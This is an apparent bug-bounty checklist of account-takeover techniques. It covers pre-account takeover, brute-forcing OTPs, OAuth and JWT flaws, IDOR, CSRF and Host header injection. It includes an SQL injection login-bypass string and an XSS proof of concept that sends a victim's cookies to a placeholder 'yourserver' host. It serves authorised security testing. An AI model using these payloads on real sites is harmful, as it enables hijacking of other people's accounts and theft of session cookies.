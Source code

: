 - [ ] **a lot of ideas in this article by omer hesham**

```
<https://medium.com/bugbountywriteup/hubspot-full-account-takeover-in-bug-bounty-4e2047914ab5>
```

- [ ] **OAuth to Account takeover**

```
<https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover>
```

- [ ] **Pre-Account Takeover**

A pre-account takeover occurs when an attacker creates a user account using one signup method and the victim creates another account using a different signup method using the same email address. Because the email addresses are the same, the application connects the two accounts. when the app is unable to validate email addresses.

```
How to hunt :-    Try registering any email address without verifying it.    Try registering an account again, but this time with a different method, such as ‘sign up with Google’ from same email address.    Due to the fact that both email addresses are the same, the web application will link the two accounts.    Now try logging in using the specified password and username. Check to see whether you can see information from that account that was retrieved via Google.
```

- [ ] **Account takeover due to Improper Rate limit**

```
How to Hunt:-    capture the request at the login page, while providing username and password.    send it to intruder and Brute force it.    Analyze the response and length.
```

- [ ] **Account takeover by utilizing sensitive data exposure**

```
Sensitive data exposure occurs when a web application failed to properly protect confidential information, resulting in the disclosure of sensitive information or data about users, or anything related to them, to a third party.Occasionally, the application displays unnecessary data, such as valid OTPs, hashes, or passwords, over the request and response parts. So it’s a good idea to pay attention to the response and request portions.
```

- [ ] **login**

```
1. check if you are able to brute force the password2. Test for OAuth misconfigurations3. check if you are able to bruteforce the login OTP4. check for JWT mesconfigurations5. Test for SQL injection to bypass authentication ```admin" or 1=1;--```6. check if the application validates the OTP or Token
```

- [ ] **password reset**

```
1. check if you are able to brute force the password reset OTP2. test for token predectability3. test for JWT misconfigurations4. check if the password reset endpoint is vulnerable to IDOR5. check if the password reset endpoint is vulnerable to Host Header injection6. check if the password reset endpoint is leaking the token or OTP in the HTTP response7. check if the application validates the OTP or Token8. test for HTTP parameter Pollution (HPP)
```

- [ ] **XSS to Account Takeover**

if the application does not use auth token or you can't access the cookies because the "HttpOnly" flag, you can obtain the CSRF token and craft a request to change the user's email or password

```
1. try to exfiltrate the cookies2. try to exfiltrate the Auth Token3. if the cookie's "domain" attribute is set, search for xss in the subdomains and use it to exfiltrate the cookies    - PoC Example:        ```html        <script>            /*            this script will create a hidden <img> element            when the browser tries to load the image            the victim's cookies will be sent to your server            */            var new_img = document.createElement('img');            new_img.src = "<http://yourserver/>" + document.cookie;            new_img.style = 'display: none;'            document.body.appendChild(new_img);        </script>        ```
```

- [ ] **CSRF to Account Takeover**

```
1. check if the email update endpoint is vulnerable to CSRF2. check if the password change endpoint is vulnerable to CSRF
```

- [ ] **IDOR to Account Takerover**

```
1. checck if the email update endpoint is vulnerable to IDOR2. check if the password change endpoint is vulnerable to IDOR3. check if the password reset endpoint vulnerable to IDOR
```

- [ ] **Account takeover by Response & Status code Manipulation**
- [ ] **Account takeover by exploiting Weak cryptography**

```
check this<https://infosecwriteups.com/weak-cryptography-in-password-reset-to-full-account-takeover-fc61c75b36b9>
```

- [ ] **Password or email change function**

```
IF you try to change password and see email parameter in password change request, Try changing your email to victim email
```

- [ ] **Sing-Up Function**

```
IF you try to sing-up new account in target site, in email filed try set target emailIF you try to sing-up new account in target site using 3rd party, in 3d party use phone number instead email then link 3rd account with target site.Then Go setting try link victim email in you account
```

- [ ] **Rest Token**

```
Try to use your REST Token with Target account. Hint: email=Target@email.com&code=$Attacker_TOKEN$Brute Force Rest Token if it is numeric. Hint : email=Target@email.com&code=$TOKEN$Try to figure out how the token are generated: 1. Generated based on TimeStamp OR ID of user OR email of user
```

- [ ] **Host Header Injection**

```
when send rest account request intercept POST Request and Change Host header value from target.site TO Attacker.com: Hint POST /PassRest HTTP1/1 Host: Attacker.com
```

- [ ] **CORS Misconfiguration to Account Takeover**

If the page contains CORS missconfigurations you might be able to steal sensitive information from the user to takeover his account or make him change auth information for the same purpose:

```
<https://book.hacktricks.xyz/pentesting-web/cors-bypass>
```

- [ ] **Account takeover via leaked session cookie**

```
<https://hackerone.com/reports/745324>
```

- [ ] **HTTP Request Smuggling to ATO**

```
<https://hackerone.com/reports/737140><https://hackerone.com/reports/740037>
```

- [ ] **Bypassing Digits origin validation which leads to account takeover**

```
<https://hackerone.com/reports/129873>
```

- [ ] Top ATO report in hackerone

```
<https://github.com/reddelexc/hackerone-reports/blob/master/tops_by_bug_type/TOPACCOUNTTAKEOVER.md>
```